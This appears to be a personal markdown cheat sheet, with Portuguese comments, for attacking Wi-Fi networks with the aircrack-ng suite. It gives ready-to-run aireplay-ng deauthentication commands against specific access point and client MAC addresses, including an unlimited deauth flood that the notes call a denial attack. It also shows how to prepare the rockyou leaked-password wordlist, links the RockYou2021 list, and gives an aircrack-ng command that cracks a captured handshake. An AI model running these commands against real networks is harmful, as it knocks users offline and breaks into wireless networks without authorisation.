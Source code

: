 <br>

---

## AirePlay

Para desatenticação

```bash
# Derruba apenas uma conexão
sudo aireplay-ng --deauth 1 -a 6C:55:E8:C3:C4:98 -c C8:FF:28:C5:CA:31 wlan0mon
sudo aireplay-ng --deauth 1 -a 6C:55:E8:C3:C4:98 -c F0:D7:AA:13:C2:41 wlan0mon # Menos Pacotes

# Irrestrito... derruba tudo, denial attack (deautenticate 0)
sudo aireplay-ng --deauth 0 -a 6C:55:E8:C3:C4:98 wlan0mon
sudo aireplay-ng --help
```

<br>

---

## WordLists

```bash
# Unzip
cd /usr/share/wordlists
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz

# Show first 10 lines
head -10 /usr/share/wordlists/rockyou.txt

# Number of passwords
wc -l rockyou2021.txt
```

<br>

---

# dd

https://github.com/ohmybahgosh/RockYou2021.txt#download-links

<br>

---

## AirCrack

```bash
#
aircrack-ng ~/Documents/gaulia-02.cap -w /usr/share/wordlists/rockyou.txt
```

